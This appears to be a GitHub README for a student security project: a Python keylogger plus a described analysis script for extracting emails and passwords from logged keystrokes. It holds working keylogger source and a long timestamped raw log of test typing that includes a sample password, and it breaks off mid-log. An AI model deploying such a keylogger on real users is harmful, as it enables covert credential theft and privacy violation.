 # Keystroke Log Analyzer with Word Extraction and Pattern Detection

In this project, I created a keylogger to capture keystrokes and a script to analyze the logged data. 
The script reconstructs the keystrokes into readable text and identifies patterns like common words, URLs, emails, and passwords, making it easier to extract useful information.
       
---

## What I learned from this project?

Through this project, I gained several key insights that will benefit my future career as a cybersecurity analyst. One critical takeaway was understanding the security
implications of how straightforward it is to create and implement a keylogger. Keyloggers are relatively easy to develop or acquire, and a threat actor merely needs to
deploy a payload for the victim to execute the script, which can often evade detection.

Additionally, this project deepened my proficiency in Python, particularly through the use of libraries like pynput for capturing keystrokes and re for regex-based pattern matching. 
As I progressed, I found myself continuously expanding the functionality of the script. Initially focused on detecting common words and URLs, I later incorporated features to recognize emails and potential passwords.

Looking ahead, there are several enhancements I'm considering, such as encrypting output files, conducting more detailed analysis of typing patterns, and expanding pattern recognition capabilities. 
These additions could further improve the project's scope and relevance to real-world cybersecurity challenges.

---

## How does this project work?

This project consists of two key components: a keylogger for capturing keyboard input and an analysis script for processing the captured data. 

The keylogger is designed to record all keyboard activity and log it to a file, raw_log.txt, along with timestamps. When activated, it initializes
the log file by noting the start time and records each key pressed, including handling special keys like spaces, backspaces, and other non-character keys.
The keylogger continues capturing input until the esc key is pressed, which serves as the stop mechanism.

Below is the code for the keylogger in Python:
```
from pynput.keyboard import Listener
import time
import os

# File to extract logs into
log_file = "raw_log.txt"

# Check if file exists, then creats/writes into the file. Extracting the time when the keylogger is activated
if not os.path.exists(log_file):
    with open(log_file, "w") as file:
        file.write("Keylogger started at: {}\n".format(time.ctime()))

# Function called with every key pressed, logs it into file with that current timestamp
def on_press(key):
    try:
        with open(log_file, "a") as file:
            file.write("{0} - {1}\n".format(time.ctime(), key.char))
    except AttributeError:
        with open(log_file, "a") as file:
            file.write("{0} - {1}\n".format(time.ctime(), key))
        
        # Break zone, when esc key is entered, the keylogger stops
        if key == key.esc:
            return False

# Enables input from keyboard
with Listener(on_press=on_press) as listener:
    listener.join()
```

---

Here is then the extracted raw data that the script retrieved:
<details>
<summary>Raw Data</summary>

```txt 
    Keylogger started at: Fri Dec 13 16:32:25 2024
    Fri Dec 13 16:32:27 2024 - Key.shift_r
    Fri Dec 13 16:32:28 2024 - T
    Fri Dec 13 16:32:28 2024 - h
    Fri Dec 13 16:32:28 2024 - i
    Fri Dec 13 16:32:28 2024 - s
    Fri Dec 13 16:32:28 2024 - Key.space
    Fri Dec 13 16:32:29 2024 - i
    Fri Dec 13 16:32:29 2024 - s
    Fri Dec 13 16:32:29 2024 - Key.space
    Fri Dec 13 16:32:29 2024 - a
    Fri Dec 13 16:32:29 2024 - Key.space
    Fri Dec 13 16:32:30 2024 - k
    Fri Dec 13 16:32:30 2024 - e
    Fri Dec 13 16:32:30 2024 - y
    Fri Dec 13 16:32:30 2024 - l
    Fri Dec 13 16:32:30 2024 - o
    Fri Dec 13 16:32:31 2024 - g
    Fri Dec 13 16:32:31 2024 - g
    Fri Dec 13 16:32:31 2024 - e
    Fri Dec 13 16:32:31 2024 - r
    Fri Dec 13 16:32:31 2024 - Key.space
    Fri Dec 13 16:32:32 2024 - t
    Fri Dec 13 16:32:32 2024 - e
    Fri Dec 13 16:32:32 2024 - s
    Fri Dec 13 16:32:32 2024 - t
    Fri Dec 13 16:32:33 2024 - ,
    Fri Dec 13 16:32:33 2024 - Key.space
    Fri Dec 13 16:32:33 2024 - t
    Fri Dec 13 16:32:33 2024 - h
    Fri Dec 13 16:32:34 2024 - i
    Fri Dec 13 16:32:34 2024 - s
    Fri Dec 13 16:32:34 2024 - Key.space
    Fri Dec 13 16:32:34 2024 - i
    Fri Dec 13 16:32:34 2024 - s
    Fri Dec 13 16:32:34 2024 - Key.space
    Fri Dec 13 16:32:35 2024 - a
    Fri Dec 13 16:32:35 2024 - l
    Fri Dec 13 16:32:35 2024 - l
    Fri Dec 13 16:32:35 2024 - Key.space
    Fri Dec 13 16:32:35 2024 - b
    Fri Dec 13 16:32:35 2024 - e
    Fri Dec 13 16:32:36 2024 - i
    Fri Dec 13 16:32:36 2024 - n
    Fri Dec 13 16:32:36 2024 - g
    Fri Dec 13 16:32:36 2024 - f
    Fri Dec 13 16:32:36 2024 - Key.space
    Fri Dec 13 16:32:37 2024 - Key.backspace
    Fri Dec 13 16:32:37 2024 - Key.backspace
    Fri Dec 13 16:32:37 2024 - Key.space
    Fri Dec 13 16:32:38 2024 - l
    Fri Dec 13 16:32:38 2024 - o
    Fri Dec 13 16:32:38 2024 - g
    Fri Dec 13 16:32:38 2024 - g
    Fri Dec 13 16:32:38 2024 - e
    Fri Dec 13 16:32:39 2024 - d
    Fri Dec 13 16:32:39 2024 - Key.space
    Fri Dec 13 16:32:39 2024 - f
    Fri Dec 13 16:32:39 2024 - d
    Fri Dec 13 16:32:40 2024 - Key.backspace
    Fri Dec 13 16:32:40 2024 - r
    Fri Dec 13 16:32:40 2024 - o
    Fri Dec 13 16:32:41 2024 - m
    Fri Dec 13 16:32:41 2024 - Key.space
    Fri Dec 13 16:32:41 2024 - a
    Fri Dec 13 16:32:41 2024 - Key.space
    Fri Dec 13 16:32:42 2024 - k
    Fri Dec 13 16:32:42 2024 - e
    Fri Dec 13 16:32:42 2024 - y
    Fri Dec 13 16:32:43 2024 - l
    Fri Dec 13 16:32:43 2024 - o
    Fri Dec 13 16:32:43 2024 - g
    Fri Dec 13 16:32:43 2024 - g
    Fri Dec 13 16:32:44 2024 - e
    Fri Dec 13 16:32:44 2024 - r
    Fri Dec 13 16:32:45 2024 - .
    Fri Dec 13 16:32:45 2024 - Key.space
    Fri Dec 13 16:32:45 2024 - Key.shift_r
    Fri Dec 13 16:32:45 2024 - T
    Fri Dec 13 16:32:45 2024 - h
    Fri Dec 13 16:32:45 2024 - i
    Fri Dec 13 16:32:46 2024 - s
    Fri Dec 13 16:32:46 2024 - Key.space
    Fri Dec 13 16:32:46 2024 - k
    Fri Dec 13 16:32:46 2024 - e
    Fri Dec 13 16:32:46 2024 - y
    Fri Dec 13 16:32:47 2024 - l
    Fri Dec 13 16:32:47 2024 - o
    Fri Dec 13 16:32:47 2024 - g
    Fri Dec 13 16:32:47 2024 - g
    Fri Dec 13 16:32:47 2024 - e
    Fri Dec 13 16:32:48 2024 - r
    Fri Dec 13 16:32:48 2024 - Key.space
    Fri Dec 13 16:32:48 2024 - w
    Fri Dec 13 16:32:48 2024 - i
    Fri Dec 13 16:32:49 2024 - l
    Fri Dec 13 16:32:49 2024 - l
    Fri Dec 13 16:32:49 2024 - Key.space
    Fri Dec 13 16:32:50 2024 - p
    Fri Dec 13 16:32:50 2024 - i
    Fri Dec 13 16:32:50 2024 - c
    Fri Dec 13 16:32:51 2024 - k
    Fri Dec 13 16:32:51 2024 - Key.space
    Fri Dec 13 16:32:51 2024 - u
    Fri Dec 13 16:32:51 2024 - p
    Fri Dec 13 16:32:51 2024 - Key.space
    Fri Dec 13 16:32:51 2024 - e
    Fri Dec 13 16:32:52 2024 - v
    Fri Dec 13 16:32:52 2024 - e
    Fri Dec 13 16:32:52 2024 - r
    Fri Dec 13 16:32:52 2024 - y
    Fri Dec 13 16:32:52 2024 - Key.space
    Fri Dec 13 16:32:53 2024 - k
    Fri Dec 13 16:32:53 2024 - e
    Fri Dec 13 16:32:53 2024 - y
    Fri Dec 13 16:32:53 2024 - Key.space
    Fri Dec 13 16:32:53 2024 - s
    Fri Dec 13 16:32:53 2024 - t
    Fri Dec 13 16:32:54 2024 - r
    Fri Dec 13 16:32:54 2024 - o
    Fri Dec 13 16:32:54 2024 - k
    Fri Dec 13 16:32:54 2024 - e
    Fri Dec 13 16:32:55 2024 - .
    Fri Dec 13 16:32:56 2024 - Key.space
    Fri Dec 13 16:32:56 2024 - Key.shift_r
    Fri Dec 13 16:32:56 2024 - T
    Fri Dec 13 16:32:56 2024 - h
    Fri Dec 13 16:32:56 2024 - a
    Fri Dec 13 16:32:56 2024 - t
    Fri Dec 13 16:32:57 2024 - Key.space
    Fri Dec 13 16:32:57 2024 - i
    Fri Dec 13 16:32:57 2024 - s
    Fri Dec 13 16:32:57 2024 - Key.space
    Fri Dec 13 16:32:57 2024 - s
    Fri Dec 13 16:32:58 2024 - c
    Fri Dec 13 16:32:58 2024 - a
    Fri Dec 13 16:32:58 2024 - r
    Fri Dec 13 16:32:58 2024 - y
    Fri Dec 13 16:32:59 2024 - Key.shift_r
    Fri Dec 13 16:32:59 2024 - !
    Fri Dec 13 16:33:00 2024 - Key.space
    Fri Dec 13 16:33:00 2024 - Key.shift_r
    Fri Dec 13 16:33:00 2024 - T
    Fri Dec 13 16:33:00 2024 - h
    Fri Dec 13 16:33:01 2024 - e
    Fri Dec 13 16:33:01 2024 - n
    Fri Dec 13 16:33:01 2024 - Key.space
    Fri Dec 13 16:33:01 2024 - i
    Fri Dec 13 16:33:01 2024 - t
    Fri Dec 13 16:33:01 2024 - Key.space
    Fri Dec 13 16:33:01 2024 - w
    Fri Dec 13 16:33:02 2024 - i
    Fri Dec 13 16:33:02 2024 - l
    Fri Dec 13 16:33:02 2024 - l
    Fri Dec 13 16:33:02 2024 - Key.space
    Fri Dec 13 16:33:03 2024 - b
    Fri Dec 13 16:33:03 2024 - e
    Fri Dec 13 16:33:03 2024 - Key.space
    Fri Dec 13 16:33:03 2024 - a
    Fri Dec 13 16:33:03 2024 - l
    Fri Dec 13 16:33:04 2024 - a
    Fri Dec 13 16:33:04 2024 - y
    Fri Dec 13 16:33:05 2024 - z
    Fri Dec 13 16:33:05 2024 - e
    Fri Dec 13 16:33:05 2024 - d
    Fri Dec 13 16:33:08 2024 - Key.backspace
    Fri Dec 13 16:33:08 2024 - Key.backspace
    Fri Dec 13 16:33:08 2024 - Key.backspace
    Fri Dec 13 16:33:08 2024 - Key.backspace
    Fri Dec 13 16:33:08 2024 - Key.backspace
    Fri Dec 13 16:33:09 2024 - Key.backspace
    Fri Dec 13 16:33:09 2024 - n
    Fri Dec 13 16:33:09 2024 - a
    Fri Dec 13 16:33:09 2024 - l
    Fri Dec 13 16:33:10 2024 - y
    Fri Dec 13 16:33:11 2024 - z
    Fri Dec 13 16:33:11 2024 - e
    Fri Dec 13 16:33:11 2024 - d
    Fri Dec 13 16:33:12 2024 - .
    Fri Dec 13 16:33:12 2024 - Key.space
    Fri Dec 13 16:33:16 2024 - Key.shift_r
    Fri Dec 13 16:33:16 2024 - H
    Fri Dec 13 16:33:16 2024 - o
    Fri Dec 13 16:33:16 2024 - p
    Fri Dec 13 16:33:17 2024 - e
    Fri Dec 13 16:33:17 2024 - f
    Fri Dec 13 16:33:17 2024 - u
    Fri Dec 13 16:33:17 2024 - l
    Fri Dec 13 16:33:17 2024 - l
    Fri Dec 13 16:33:17 2024 - y
    Fri Dec 13 16:33:18 2024 - Key.space
    Fri Dec 13 16:33:19 2024 - Key.shift_r
    Fri Dec 13 16:33:19 2024 - I
    Fri Dec 13 16:33:19 2024 - Key.space
    Fri Dec 13 16:33:19 2024 - d
    Fri Dec 13 16:33:19 2024 - o
    Fri Dec 13 16:33:20 2024 - n
    Fri Dec 13 16:33:20 2024 - '
    Fri Dec 13 16:33:20 2024 - t
    Fri Dec 13 16:33:20 2024 - Key.space
    Fri Dec 13 16:33:21 2024 - g
    Fri Dec 13 16:33:21 2024 - o
    Fri Dec 13 16:33:21 2024 - Key.space
    Fri Dec 13 16:33:21 2024 - t
    Fri Dec 13 16:33:21 2024 - o
    Fri Dec 13 16:33:21 2024 - Key.space
    Fri Dec 13 16:33:22 2024 - a
    Fri Dec 13 16:33:22 2024 - Key.space
    Fri Dec 13 16:33:22 2024 - w
    Fri Dec 13 16:33:23 2024 - e
    Fri Dec 13 16:33:23 2024 - b
    Fri Dec 13 16:33:23 2024 - s
    Fri Dec 13 16:33:23 2024 - i
    Fri Dec 13 16:33:24 2024 - t
    Fri Dec 13 16:33:24 2024 - e
    Fri Dec 13 16:33:25 2024 - Key.space
    Fri Dec 13 16:33:25 2024 - l
    Fri Dec 13 16:33:26 2024 - i
    Fri Dec 13 16:33:26 2024 - k
    Fri Dec 13 16:33:26 2024 - e
    Fri Dec 13 16:33:26 2024 - Key.space
    Fri Dec 13 16:33:26 2024 - Key.shift_r
    Fri Dec 13 16:33:26 2024 - T
    Fri Dec 13 16:33:27 2024 - y
    Fri Dec 13 16:33:27 2024 - Key.backspace
    Fri Dec 13 16:33:27 2024 - r
    Fri Dec 13 16:33:27 2024 - y
    Fri Dec 13 16:33:28 2024 - Key.shift_r
    Fri Dec 13 16:33:28 2024 - H
    Fri Dec 13 16:33:28 2024 - a
    Fri Dec 13 16:33:28 2024 - c
    Fri Dec 13 16:33:29 2024 - k
    Fri Dec 13 16:33:29 2024 - Key.shift_r
    Fri Dec 13 16:33:29 2024 - M
    Fri Dec 13 16:33:29 2024 - e
    Fri Dec 13 16:33:31 2024 - .
    Fri Dec 13 16:33:31 2024 - c
    Fri Dec 13 16:33:32 2024 - o
    Fri Dec 13 16:33:32 2024 - m
    Fri Dec 13 16:33:32 2024 - Key.space
    Fri Dec 13 16:33:33 2024 - a
    Fri Dec 13 16:33:33 2024 - n
    Fri Dec 13 16:33:33 2024 - d
    Fri Dec 13 16:33:33 2024 - Key.space
    Fri Dec 13 16:33:34 2024 - t
    Fri Dec 13 16:33:34 2024 - y
    Fri Dec 13 16:33:34 2024 - p
    Fri Dec 13 16:33:34 2024 - e
    Fri Dec 13 16:33:34 2024 - Key.space
    Fri Dec 13 16:33:35 2024 - i
    Fri Dec 13 16:33:35 2024 - n
    Fri Dec 13 16:33:35 2024 - Key.space
    Fri Dec 13 16:33:36 2024 - m
    Fri Dec 13 16:33:36 2024 - y
    Fri Dec 13 16:33:36 2024 - Key.space
    Fri Dec 13 16:33:37 2024 - c
    Fri Dec 13 16:33:37 2024 - r
    Fri Dec 13 16:33:37 2024 - e
    Fri Dec 13 16:33:37 2024 - d
    Fri Dec 13 16:33:37 2024 - e
    Fri Dec 13 16:33:38 2024 - n
    Fri Dec 13 16:33:38 2024 - t
    Fri Dec 13 16:33:38 2024 - i
    Fri Dec 13 16:33:38 2024 - a
    Fri Dec 13 16:33:38 2024 - l
    Fri Dec 13 16:33:38 2024 - s
    Fri Dec 13 16:33:39 2024 - .
    Fri Dec 13 16:33:39 2024 - Key.space
    Fri Dec 13 16:33:41 2024 - Key.shift_r
    Fri Dec 13 16:33:42 2024 - W
    Fri Dec 13 16:33:42 2024 - h
    Fri Dec 13 16:33:42 2024 - i
    Fri Dec 13 16:33:42 2024 - c
    Fri Dec 13 16:33:42 2024 - h
    Fri Dec 13 16:33:42 2024 - Key.space
    Fri Dec 13 16:33:43 2024 - b
    Fri Dec 13 16:33:43 2024 - e
    Fri Dec 13 16:33:43 2024 - i
    Fri Dec 13 16:33:43 2024 - n
    Fri Dec 13 16:33:43 2024 - g
    Fri Dec 13 16:33:43 2024 - Key.space
    Fri Dec 13 16:33:45 2024 - k
    Fri Dec 13 16:33:45 2024 - e
    Fri Dec 13 16:33:45 2024 - y
    Fri Dec 13 16:33:46 2024 - l
    Fri Dec 13 16:33:46 2024 - o
    Fri Dec 13 16:33:46 2024 - g
    Fri Dec 13 16:33:46 2024 - g
    Fri Dec 13 16:33:47 2024 - o
    Fri Dec 13 16:33:47 2024 - Key.backspace
    Fri Dec 13 16:33:47 2024 - e
    Fri Dec 13 16:33:48 2024 - d
    Fri Dec 13 16:33:48 2024 - Key.shift_r
    Fri Dec 13 16:33:49 2024 - Key.shift_r
    Fri Dec 13 16:33:49 2024 - Key.shift_r
    Fri Dec 13 16:33:49 2024 - @
    Fri Dec 13 16:33:49 2024 - e
    Fri Dec 13 16:33:50 2024 - x
    Fri Dec 13 16:33:50 2024 - a
    Fri Dec 13 16:33:50 2024 - m
    Fri Dec 13 16:33:50 2024 - p
    Fri Dec 13 16:33:50 2024 - l
    Fri Dec 13 16:33:51 2024 - e
    Fri Dec 13 16:33:51 2024 - .
    Fri Dec 13 16:33:51 2024 - c
    Fri Dec 13 16:33:51 2024 - o
    Fri Dec 13 16:33:51 2024 - m
    Fri Dec 13 16:33:54 2024 - Key.space
    Fri Dec 13 16:33:54 2024 - a
    Fri Dec 13 16:33:55 2024 - n
    Fri Dec 13 16:33:55 2024 - d
    Fri Dec 13 16:33:55 2024 - Key.space
    Fri Dec 13 16:33:55 2024 - m
    Fri Dec 13 16:33:56 2024 - y
    Fri Dec 13 16:33:56 2024 - Key.space
    Fri Dec 13 16:33:57 2024 - p
    Fri Dec 13 16:33:57 2024 - a
    Fri Dec 13 16:33:57 2024 - s
    Fri Dec 13 16:33:57 2024 - s
    Fri Dec 13 16:33:57 2024 - w
    Fri Dec 13 16:33:57 2024 - o
    Fri Dec 13 16:33:57 2024 - r
    Fri Dec 13 16:33:58 2024 - d
    Fri Dec 13 16:33:58 2024 - Key.space
    Fri Dec 13 16:34:01 2024 - b
    Fri Dec 13 16:34:01 2024 - e
    Fri Dec 13 16:34:02 2024 - i
    Fri Dec 13 16:34:02 2024 - n
    Fri Dec 13 16:34:02 2024 - g
    Fri Dec 13 16:34:02 2024 - Key.space
    Fri Dec 13 16:34:02 2024 - Key.shift_r
    Fri Dec 13 16:34:02 2024 - P
    Fri Dec 13 16:34:04 2024 - 2
    Fri Dec 13 16:34:05 2024 - Key.backspace
    Fri Dec 13 16:34:05 2024 - Key.shift_r
    Fri Dec 13 16:34:05 2024 - @
    Fri Dec 13 16:34:06 2024 - Key.shift_r
    Fri Dec 13 16:34:06 2024 - $
    Fri Dec 13 16:34:06 2024 - $
    Fri Dec 13 16:34:07 2024 - Key.shift_r
    Fri Dec 13 16:34:07 2024 - W
    Fri Dec 13 16:34:09 2024 - Key.shift_r
    Fri Dec 13 16:34:09 2024 - 0
    Fri Dec 13 16:34:10 2024 - r
    Fri Dec 13 16:34:10 2024 - d
    Fri Dec 13 16:34:11 2024 - Key.shift_r
    Fri Dec 13 16:34:11 2024 - !
    Fri Dec 13 16:34:12 2024 - 9
    Fri Dec 13 16:34:13 2024 - 9
    Fri Dec 13 16:34:14 2024 - Key.space
    Fri Dec 13 16:34:14 2024 - f
    Fri Dec 13 16:34:14 2024 - o
    Fri Dec 13 16:34:15 2024 - r
    Fri Dec 13 16:34:15 2024 - Key.space
    Fri Dec 13 16:34:15 2024 - t
    Fri Dec 13 16:34:15 2024 - h
    Fri Dec 13 16:34:15 2024 - e
    Fri Dec 13 16:34:15 2024 - Key.space
    Fri Dec 13 16:34:15 2024 - w
    Fri Dec 13 16:34:16 2024 - e
    Fri Dec 13 16:34:16 2024 - b
    Fri Dec 13 16:34:16 2024 - s
    Fri Dec 13 16:34:16 2024 - i
    Fri Dec 13 16:34:16 2024 - t
    Fri Dec 13 16:34:17 2024 - e
    Fri Dec 13 16:34:17 2024 - .
    Fri Dec 13 16:34:23 2024 - Key.space
    Fri Dec 13 16:34:23 2024 - Key.shift_r
    Fri Dec 13 16:34:23 2024 - T
    Fri Dec 13 16:34:24 2024 - h
    Fri Dec 13 16:34:24 2024 - a
    Fri Dec 13 16:34:24 2024 - t
    Fri Dec 13 16:34:24 2024 - Key.space
    Fri Dec 13 16:34:27 2024 - k
    Fri Dec 13 16:34:27 2024 - e
    Fri Dec 13 16:34:27 2024 - y
    Fri Dec 13 16:34:27 2024 - l
    Fri Dec 13 16:34:27 2024 - o
    Fri Dec 13 16:34:28 2024 - g
    Fri Dec 13 16:34:28 2024 - g
    Fri Dec 13 16:34:28 2024 - e
    Fri Dec 13 16:34:28 2024 - r
    Fri Dec 13 16:34:28 2024 - Key.space
    Fri Dec 13 16:34:29 2024 - w
    Fri Dec 13 16:34:29 2024 - i
    Fri Dec 13 16:34:29 2024 - l
    Fri Dec 13 16:34:29 2024 - l
    Fri Dec 13 16:34:30 2024 - Key.space
    Fri Dec 13 16:34:30 2024 - l
    Fri Dec 13 16:34:30 2024 - o
    Fri Dec 13 16:34:30 2024 - g
    Fri Dec 13 16:34:30 2024 - Key.space
    Fri Dec 13 16:34:31 2024 - t
    Fri Dec 13 16:34:32 2024 - h
    Fri Dec 13 16:34:32 2024 - a
    Fri Dec 13 16:34:32 2024 - t
    Fri Dec 13 16:34:32 2024 - Key.space
    Fri Dec 13 16:34:32 2024 - i
    Fri Dec 13 16:34:33 2024 - n
    Fri Dec 13 16:34:33 2024 - Key.space
    Fri Dec 13 16:34:33 2024 - a
    Fri Dec 13 16:34:33 2024 - n
    Fri Dec 13 16:34:33 2024 - d
    Fri Dec 13 16:34:33 2024 - Key.space
    Fri Dec 13 16:34:36 2024 - m
    Fri Dec 13 16:34:36 2024 - i
    Fri Dec 13 16:34:36 2024 - g
    Fri Dec 13 16:34:37 2024 - h
    Fri Dec 13 16:34:37 2024 - t
    Fri Dec 13 16:34:37 2024 - Key.space
    Fri Dec 13 16:34:37 2024 - f
    Fri Dec 13 16:34:37 2024 - i
    Fri Dec 13 16:34:38 2024 - n
    Fri Dec 13 16:34:38 2024 - d
    Fri Dec 13 16:34:38 2024 - Key.space
    Fri Dec 13 16:34:39 2024 - a
    Fri Dec 13 16:34:39 2024 - Key.space
    Fri Dec 13 16:34:40 2024 - t
    Fri Dec 13 16:34:40 2024 - u
    Fri Dec 13 16:34:40 2024 - t
    Fri Dec 13 16:34:41 2024 - o
    Fri Dec 13 16:34:41 2024 - r
    Fri Dec 13 16:34:41 2024 - i
    Fri Dec 13 16:34:41 2024 - a
    Fri Dec 13 16:34:41 2024 - l
    Fri Dec 13 16:34:41 2024 - Key.space
    Fri Dec 13 16:34:43 2024 - f
    Fri Dec 13 16:34:43 2024 - o
    Fri Dec 13 16:34:43 2024 - r
    Fri Dec 13 16:34:43 2024 - Key.space
    Fri Dec 13 16:34:43 2024 - a
    Fri Dec 13 16:34:43 2024 - Key.space
    Fri Dec 13 16:34:44 2024 - t
    Fri Dec 13 16:34:44 2024 - r
    Fri Dec 13 16:34:44 2024 - y
    Fri Dec 13 16:34:44 2024 - h
    Fri Dec 13 16:34:44 2024 - a
    Fri Dec 13 16:34:45 2024 - c
    Fri Dec 13 16:34:45 2024 - k
    Fri Dec 13 16:34:45 2024 - m
    Fri Dec 13 16:34:45 2024 - e
    Fri Dec 13 16:34:47 2024 - Key.space
    Fri Dec 13 16:34:47 2024 - r
    Fri Dec 13 16:34:47 2024 - o
    Fri Dec 13 16:34:47 2024 - o
    Fri Dec 13 16:34:47 2024 - m
    Fri Dec 13 16:34:48 2024 - Key.space
    Fri Dec 13 16:34:48 2024 - o
    Fri Dec 13 16:34:48 2024 - n
    Fri Dec 13 16:34:48 2024 - Key.space
    Fri Dec 13 16:34:48 2024 - y
    Fri Dec 13 16:34:49 2024 - o
    Fri Dec 13 16:34:49 2024 - u
    Fri Dec 13 16:34:49 2024 - t
    Fri Dec 13 16:34:49 2024 - u
    Fri Dec 13 16:34:50 2024 - b
    Fri Dec 13 16:34:50 2024 - e
    Fri Dec 13 16:34:51 2024 - .
    Fri Dec 13 16:34:51 2024 - c
    Fri Dec 13 16:34:52 2024 - o
    Fri Dec 13 16:34:52 2024 - m
    Fri Dec 13 16:34:55 2024 - Key.space
    Fri Dec 13 16:34:56 2024 - w
    Fri Dec 13 16:34:56 2024 - i
    Fri Dec 13 16:34:56 2024 - t
    Fri Dec 13 16:34:56 2024 - h
    Fri Dec 13 16:34:56 2024 - Key.space
    Fri Dec 13 16:34:59 2024 - m
    Fri Dec 13 16:35:00 2024 - y
    Fri Dec 13 16:35:00 2024 - Key.space
    Fri Dec 13 16:35:00 2024 - a
    Fri Dec 13 16:35:00 2024 - c
    Fri Dec 13 16:35:00 2024 - c
    Fri Dec 13 16:35:00 2024 - o
    Fri Dec 13 16:35:01 2024 - u
    Fri Dec 13 16:35:01 2024 - n
    Fri Dec 13 16:35:01 2024 - t
    Fri Dec 13 16:35:08 2024 - Key.shift_r
    Fri Dec 13 16:35:08 2024 - !
    Fri Dec 13 16:35:09 2024 - Key.space
    Fri Dec 13 16:35:09 2024 - Key.shift_r
    Fri Dec 13 16:35:10 2024 - M
    Fri Dec 13 16:35:10 2024 - i
    Fri Dec 13 16:35:10 2024 - g
    Fri Dec 13 16:35:10 2024 - h
    Fri Dec 13 16:35:10 2024 - t
    Fri Dec 13 16:35:10 2024 - Key.space
    Fri Dec 13 16:35:10 2024 - h
    Fri Dec 13 16:35:11 2024 - a
    Fri Dec 13 16:35:11 2024 - c
    Fri Dec 13 16:35:11 2024 - v
    Fri Dec 13 16:35:12 2024 - Key.backspace
    Fri Dec 13 16:35:12 2024 - Key.backspace
    Fri Dec 13 16:35:12 2024 - v
    Fri Dec 13 16:35:12 2024 - e
    Fri Dec 13 16:35:13 2024 - Key.space
    Fri Dec 13 16:35:13 2024 - t
    Fri Dec 13 16:35:13 2024 - o
    Fri Dec 13 16:35:13 2024 - Key.space
    Fri Dec 13 16:35:13 2024 - e
    Fri Dec 13 16:35:13 2024 - m
    Fri Dec 13 16:35:13 2024 - a
    Fri Dec 13 16:35:14 2024 - u
    Fri Dec 13 16:35:14 2024 - Key.backspace
    Fri Dec 13 16:35:15 2024 - i
    Fri Dec 13 16:35:15 2024 - l
    Fri Dec 13 16:35:15 2024 - Key.space
    Fri Dec 13 16:35:17 2024 - t
    Fri Dec 13 16:35:17 2024 - r
    Fri Dec 13 16:35:17 2024 - y
    Fri Dec 13 16:35:18 2024 - h
    Fri Dec 13 16:35:18 2024 - a
    Fri Dec 13 16:35:18 2024 - c
    Fri Dec 13 16:35:18 2024 - k
    Fri Dec 13 16:35:18 2024 - m
    Fri Dec 13 16:35:19 2024 - e
    Fri Dec 13 16:35:19 2024 - Key.shift_r
    Fri Dec 13 16:35:20 2024 - Key.shift_r
    Fri Dec 13 16:35:20 2024 - Key.shift_r
    Fri Dec 13 16:35:20 2024 - Key.shift_r
    Fri Dec 13 16:35:20 2024 - Key.shift_r
    Fri Dec 13 16:35:20 2024 - Key.shift_r
    Fri Dec 13 16:35:20 2024 - Key.shift_r
    Fri Dec 13 16:35:20 2024 - Key.shift_r
    Fri Dec 13 16:35:20 2024 - @
    Fri Dec 13 16:35:20 2024 - s
    Fri Dec 13 16:35:21 2024 - u
    Fri Dec 13 16:35:21 2024 - p
    Fri Dec 13 16:35:21 2024 - p
    Fri Dec 13 16:35:21 2024 - o
    Fri Dec 13 16:35:21 2024 - r
    Fri Dec 13 16:35:22 2024 - t
    Fri Dec 13 16:35:22 2024 - .
    Fri Dec 13 16:35:22 2024 - c
    Fri Dec 13 16:35:22 2024 - o
    Fri Dec 13 16:35:23 2024 - m
    Fri Dec 13 16:35:23 2024 - Key.space
    Fri Dec 13 16:35:23 2024 - o
    Fri Dec 13 16:35:23 2024 - r
    Fri Dec 13 16:35:23 2024 - Key.space
    Fri Dec 13 16:35:24 2024 - g
    Fri Dec 13 16:35:24 2024 - o
    Fri Dec 13 16:35:24 2024 - Key.space
    Fri Dec 13 16:35:25 2024 - t
    Fri Dec 13 16:35:25 2024 - o
    Fri Dec 13 16:35:25 2024 - Key.space
    Fri Dec 13 16:35:25 2024 - t
    Fri Dec 13 16:35:25 2024 - h
    Fri Dec 13 16:35:25 2024 - e
    Fri Dec 13 16:35:25 2024 - i
    Fri Dec 13 16:35:26 2024 - r
    Fri Dec 13 16:35:26 2024 - Key.space
    Fri Dec 13 16:35:27 2024 - w
    Fri Dec 13 16:35:28 2024 - e
    Fri Dec 13 16:35:28 2024 - b
    Fri Dec 13 16:35:28 2024 - s
    Fri Dec 13 16:35:28 2024 - i
    Fri Dec 13 16:35:29 2024 - t
    Fri Dec 13 16:35:29 2024 - e
    Fri Dec 13 16:35:29 2024 - Key.space
    Fri Dec 13 16:35:30 2024 - t
    Fri Dec 13 16:35:30 2024 - r
    Fri Dec 13 16:35:30 2024 - y
    Fri Dec 13 16:35:30 2024 - a
    Fri Dec 13 16:35:30 2024 - Key.backspace
    Fri Dec 13 16:35:31 2024 - h
    Fri Dec 13 16:35:31 2024 - a
    Fri Dec 13 16:35:33 2024 - c
    Fri Dec 13 16:35:33 2024 - k
    Fri Dec 13 16:35:36 2024 - Key.backspace
    Fri Dec 13 16:35:36 2024 - Key.backspace
    Fri Dec 13 16:35:37 2024 - Key.backspace
    Fri Dec 13 16:35:37 2024 - Key.backspace
    Fri Dec 13 16:35:37 2024 - Key.backspace
    Fri Dec 13 16:35:37 2024 - Key.backspace
    Fri Dec 13 16:35:38 2024 - Key.backspace
    Fri Dec 13 16:35:38 2024 - Key.backspace
    Fri Dec 13 16:35:38 2024 - Key.backspace
    Fri Dec 13 16:35:38 2024 - Key.backspace
    Fri Dec 13 16:35:38 2024 - Key.backspace
    Fri Dec 13 16:35:39 2024 - Key.backspace
    Fri Dec 13 16:35:39 2024 - Key.backspace
    Fri Dec 13 16:35:39 2024 - Key.backspace
    Fri Dec 13 16:35:39 2024 - Key.backspace
    Fri Dec 13 16:35:39 2024 - Key.backspace
    Fri Dec 13 16:35:39 2024 - Key.backspace
    Fri Dec 13 16:35:39 2024 - Key.backspace
    Fri Dec 13 16:35:39 2024 - Key.backspace
